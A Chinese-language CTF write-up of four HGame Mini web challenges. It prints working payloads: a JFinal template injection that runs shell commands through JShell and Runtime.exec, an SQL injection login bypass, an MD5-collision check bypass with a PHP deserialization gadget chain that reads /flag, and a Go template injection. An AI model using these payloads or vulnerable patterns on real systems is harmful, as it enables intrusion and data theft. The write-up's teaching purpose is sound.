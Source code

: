 ```yaml
---
title: HGame Mini Writeup
date: 2024-09-20 01:42:13
categories:
    - "CTF"
tags: 
---
```


## Enjoy Coffee

本题是一个Jar文件，使用了JFinal的模版引擎，逆向后render代码如下

```java
public class indexController {
  @RequestMapping({"/"})
  public String Index() {
    return "Try to use Enjoy Template Engine.";
  }
  
  @RequestMapping({"/render"})
  public String read(@RequestParam String tmpl) {
    try {
      Engine engine = Engine.use();
      engine.setStaticMethodExpression(true);
      Template template = engine.getTemplateByString(tmpl);
      return template.renderToString();
    } catch (Exception e) {
      return e.toString();
    } 
  }
}
```

看到一个`setStaticMethodExpression(true)`，提示我们使用静态方法，然后看到了一个同样是[JFinal的CTF题](https://pankas.top/2023/11/13/2023浙江省赛决赛web-wp/)，得知构造`JShell`然后再通过`getRuntime().exec()`来执行`Shell命令`的方法。~~通过ChatGPT~~，构造出如下字符串~~(其实题目改之前我就知道`flag`在根目录下😈)~~：

`#((jdk.jshell.JShell::create()).eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("ls /").getInputStream()).useDelimiter("\\A").next()'))`

获取到如下输出：

`[SnippetEvent(snippet=Snippet:VariableKey($1)#1-new java.util.Scanner(java.lang.Runtime.getRuntime().exec("ls /").getInputStream()).useDelimiter("\\A").next(),previousStatus=NONEXISTENT,status=VALID,isSignatureChange=true,causeSnippetnullvalue="app\nbF14g_asg7f8as9\nbash\nbin\nboot\ndev\netc\nflag\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nreadflag\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n")]`

可以看到根目录下有`bF14g_asg7f8as9`，`readflag`，`flag`，这几个奇怪🤔的文件，修改命令，一个个`cat`过去。
最终在`bF14g_asg7f8as9`中获取到了`flag`🎊。

## Vidar Mail

题目下载一看，在`login`函数下看到了喜闻乐见的`sql注入`，可注入的语句如下

```go
query := "SELECT username FROM users WHERE username = '" + user.Username + "' AND password = '" + user.Password + "'"
```

然后目光来到`flagchecker`函数内，貌似需要满足一定的条件（用户为`admin`，发的邮件内容为`where is my flag`，收件人为`flagholder`）才能获取到`flag`

```go
query := "SELECT id FROM emails WHERE sender = 'admin' AND body = 'where is my flag' AND receivers ='flagholder'"
```

于是开始通过注入登陆`admin`账号，密码为`' or '1'='1`。登入后开始发送邮件。
![vidarmail1](vidarmail1.png)

然后打开`/check`页面，获取到了`flag`🎊。
![vidarmail2](vidarmail2.png)

## My Notebook

打开之后用开发者工具看一下，把网页源码藏在了`/www.zip`下。看到如下登陆代码：
![mynotebook1](mynotebook1.png)

```php
if ($_SERVER['REQUEST_METHOD'] == 'POST'){
    if (!isset($_POST['check-code-1']) || !isset($_POST['check-code-2'])){
        return;
    }
    if ($_POST['check-code-1'] == $_POST['check-code-2']){
        die("<script>alert('The checkcodes cannot be equalled or empty!')</script>");
    }
    if (md5($_POST['check-code-1']) == md5($_POST['check-code-2'])){
        $_SESSION['username'] = 'admin';
        $_SESSION['session_id'] = md5(stringToRandom(16));
        header("Location:index.php");
    }else{
        die("<script>alert('The md5 of two checkcodes should be equalled!')</script>");
    }
}
```

告诉我们通过`POST`请求，并且两个`code`要不一样，但是`md5`一样，网上随便找个`md5`碰撞的字符串：`s878926199a`和`s155964671a`。
然后看到一个`save.php`和`get.php`用来存储和读取数据的，但是读取的时候有如下语句：

```php
if (is_serialized($total[$i])) {
    unserialize($total[$i]);
}
```

会将存储的数据`unserialize`，这就给了我们执行代码的机会。在`mainclass`中有许多奇怪的类：

```php
<?php
class HereWeGo{
    public $try;
    public function __destruct(){
        $this->try->gogogo();
    }
}

class GoGoGo{
    public $go;

    public function __construct($go)
    {
        $this->go = $go;
    }

    public function __call($name,$arguments){
        return $this->go->web;
    }
}

class Evil{
    public $file;
    public $final;

    public function __construct($file){
        $this->file = $file;
    }
    //The flag is in /flag
    public function __get($Attribute){
        $result = file_get_contents($this->file);
        if(preg_match('/vidar/i',$result)){
            $this->final = "HACKER!!!";
            file_put_contents('flag.txt',$this->final);
            return;
        }
        $this->final = $result;
        file_put_contents('flag.txt',$this->final);
    }
}
```

`HereWeGo`类会在解构的时候执行`try`中的`gogogo`方法，而`GoGoGo`类不管调用什么，都会返回`go`中的`web`成员。而`Evil`类在获取成员时会读取`file`，但是其中有一个正则过滤，导致我们无法直接读取`flag`，但是我们可以使用`php`内置的`php://filter/read=convert.base64-encode/resource=/flag`来将`flag`以`base64`的形式输出。
构造以下代码：

```php
$evil = new Evil("php://filter/read=convert.base64-encode/resource=/flag");

// 创建 GoGoGo 对象，传入 Evil 对象
$gogogo = new GoGoGo($evil);

// 创建 HereWeGo 对象，传入 GoGoGo 对象
$herewego = new HereWeGo();
$herewego->try = $gogogo;

// 序列化 HereWeGo 对象
$serialized = serialize($herewego);
echo $serialized;
```

最终获取到了`flag`。
![mynotebook2](mynotebook2.png)

## Go AHead

是`gin`中的模板注入。看到程序往`Request`中加了`flag`，构造模板读取`Request`：`{{.Request}}`。输出：

```plain
{GET /?tmpl=%7B%7B.Request%7D%7D HTTP/1.1 1 1 map[Accept:[*/*] Accept-Encoding:[gzip, deflate, br] Postman-Token:[d1aae680-4970-4078-9819-c9d5d03df0fe] User-Agent:[PostmanRuntime/7.41.2] Yourgift:[VIDAR{555bd130523df71e332784955363a940f36bc2e8}
]] {} <nil> 0 [] false 182.202.178.28:32664 map[] map[] <nil> map[] 10.88.0.1:41768 /?tmpl=%7B%7B.Request%7D%7D <nil> <nil> <nil> 0xc00007c3c0 <nil> [] map[]}
```

直接获取到`flag`。
